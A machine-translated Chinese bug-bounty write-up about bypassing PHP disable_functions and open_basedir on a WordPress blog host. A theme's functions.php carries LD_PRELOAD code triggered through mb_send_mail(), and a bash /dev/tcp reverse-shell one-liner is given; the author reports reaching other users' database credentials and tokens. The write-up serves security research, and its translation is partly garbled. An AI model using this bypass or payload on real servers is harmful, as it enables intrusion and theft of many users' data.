








# 我是如何绕过 php 中的 disable_functions 来获得远程 shell 的

> 原文：<https://infosecwriteups.com/how-i-bypassed-disable-functions-in-php-to-get-a-remote-shell-48b827d54979?source=collection_archive---------0----------------------->

今天我将向您展示我是如何绕过 disable_functions 并获得一个远程 shell 来访问大多数用户的文件的。

**首先**，这是一个公共节目，但尽管如此，我还是要提到 target.com 的 ***。***

## 应用程序逻辑:

这个目标应用程序的目标是使用 WordPress 引擎为其域名下的注册用户(例如***【newblog.target.com】***)创建新的博客。

博客页面可以用应用程序编辑器或 WordPress 仪表盘来编辑和设计。

## 探索:

从我新创建的博客开始，我检查了一下我有哪些特权，允许我使用或修改哪些功能，在下面的截图中，我展示了我的第一次观察！虽然我有**管理员**的角色，但是我的博客没有**编辑器**标签，不像典型的 WordPress 博客那样。



我无法编辑任何插件或主题，但我可以上传一个新的。

我需要检查上传编辑文件是否有任何限制，还需要检查运行我自己的 PHP 代码的能力。

因此，我没有编辑当前的主题/插件，而是开始上传一个新的，我下载了一个名为“**空白画布”**的简单主题，并尝试打开主 PHP 文件，该文件将在应用程序每次加载我的博客时运行，这样我就可以立即获得我的代码的结果，这个文件是**functions.php。**

我试着打印一个简单的字符串，一切正常。



然后我开始用 **shell_exec()** 和 **system()** 函数等运行任何系统命令，但是没有**没有** **输出！**

我猜测这些功能被禁用了，查了一下 **phpinfo()** ，我是对的！



如果你不知道什么是 **disable_functions** 什么是**，**这允许服务器禁用某些 PHP 功能来提升服务器的安全性，你可以用 php.ini 文件或服务器配置来设置。

同样，当我检查 **open_basedir** 以检查允许我访问的开放目录时。***-所有路径用冒号分隔-。***

**我发现我不能访问任何系统文件，只有我上传的和 wp 文件。**

****

**我还从允许的目录中注意到，我的网站子域在以下路径下有自己的文件**

```
/mnt/customars-**MY_SUBDOAMIN_NAME**-wordpress-pvc-**RANDOM_VALUE**/
```

**这也引起了我的注意，因为如果我的账号/网站在服务器里有目录，**可能这个服务器是共享服务器，里面有其他用户的文件！****

**如果是这样，正如我上面所说的，由于**的 open_basedir** 策略，我们不能访问它，所以我们需要找到一种方法绕过这些限制，让一个远程 shell 来浏览服务器文件，以检查我的猜测是否正确。**

## **绕过 disable_functions:**

**经过一番研究，我想到了两种方法，我们先讨论其中一种，但在开始之前，有几点需要声明:**

*   **有一个名为`**LD_PRELOAD**`的环境变量，它提供了在其他库之前预加载一个库- *LibraryName.so -* 的可能性。**
*   **如果我们能够将文件设置为一个在我们控制之下的共享对象的路径，那么文件**将在任何其他库之前被加载，是的，没有 PHP 的限制！****
*   **为此，首先需要运行一个二进制程序。**

**现在我们有了主要的想法，即将`**LD_PRELOAD**` 环境变量设置或覆盖到一个受控的共享库中。**

**简而言之，我们需要以下内容:**

1.  ****要执行的二进制。****
2.  **以**的方式设置或覆盖** `**LD_PRELOAD**` 变量。**
3.  ****创建我们的任意对象**，它可以是二进制或 bash 脚本，这样我们就可以运行命令或得到一个反向 shell。**

**PHP 中一个著名的函数是 **mail()** 函数，如果它是在 PHP 中执行的话，我知道在我们的例子中它在 phpinfo 页面中被禁用了。不过，无论如何，这个函数将使用您系统上的`**/user/sbin/sendmail**` **二进制文件**，PHP 将首先在您的 **$PATH** 中查找 **sendmail** 然后执行它，这正是我们想要的，**但是我们知道它被禁用了，所以我们需要一个替代方案！****

**有一个函数的工作原理和"**mail()"**is**" MB _ send _ mail()"**一样但是它只有在 **mbstring** 模块被启用的情况下才会工作，让我们重新看一下 phpinfo。**

****

**很好，已经启用了，现在我们可以使用它了。**

**为了设置环境变量，我们可以使用 **putenv()** 函数，正如你可能注意到的，它也是**而不是**禁用的。**

**最后一件事是创建我们的任意库，我找到了 [Chankro](https://github.com/TarlogicSecurity/Chankro) 工具，它将帮助我们完成所有这些，你将把你的**反向 shell 有效负载**和你控制的**目录**给它，它将为你提供包含在主题文件中的最终 PHP 代码。**

**这个工具基于使用 **mail()** 函数，所以我们可以很容易地编辑源代码，将 **mail()** 改为 **mb_send_mail()。****

****

**保存编辑过的文件，我们可以使用一个简单的反向 shell 有效负载，如**

```
bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
```

**现在我们可以运行这个工具，结果将是一个包含我们任意代码的 PHP 文件。**

**让我们将其内容添加到“**空白画布”**主题文件中的**functions.php**中并上传。**

**一切都好，我们可以创建一个 Netcat 监听器并访问我们的网站。**

********

**我们得到了一个反向外壳，现在回到主要目标，我们想知道这是否是一个共享服务器，是否有其他用户的文件。**

**当我搜索时，我找到了大约 24000 个用户的文件！**

****

**此外，我还发现了大多数用户的数据库用户名和密码，我还发现了一些其他人的身份验证令牌，等等。**

****

**我希望你喜欢阅读，如果你有任何反馈，我会很高兴！**

**参考资料:
[https://www.macs.hw.ac.uk/~hwloidl/docs/PHP/ref.mail.html](https://www.macs.hw.ac.uk/~hwloidl/docs/PHP/ref.mail.html)
https://www . tarlogic . com/blog/how-to-bypass-disable _ functions-and-open _ basedir/**